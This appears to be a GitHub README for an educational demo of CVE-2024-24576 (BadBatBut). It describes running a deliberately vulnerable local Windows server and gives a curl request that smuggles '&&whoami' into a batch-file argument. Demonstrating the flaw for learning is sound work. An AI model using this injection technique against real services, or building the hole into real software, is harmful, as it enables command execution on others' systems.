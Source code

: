 # CVE-2024-24576 BadBatBut Demo

This is a simple demo for the BadBatBut vulnerability CVE-2024-24576.

This repository is for educational purposes only.

## Usage

### Pre-built binary
- Get the pre-built windows binary from the [releases](https://github.com/corysabol/batbadbut-demo/releases).
- Run the server binary `./badbatbut-demo.exe`

### Build from source
- Clone this repo
- Run the code on a Windows box `cargo run`

### Exploit

The server exposes an endpoint `/server_info/{server}` on `http://localhost:9999` which runs a .bat file to fetch server info.
The vulnerability can be exploited by sending a GET request to this endpoit like follows:

```
curl http://localhost:9999/server_info/localhost&&whoami
```
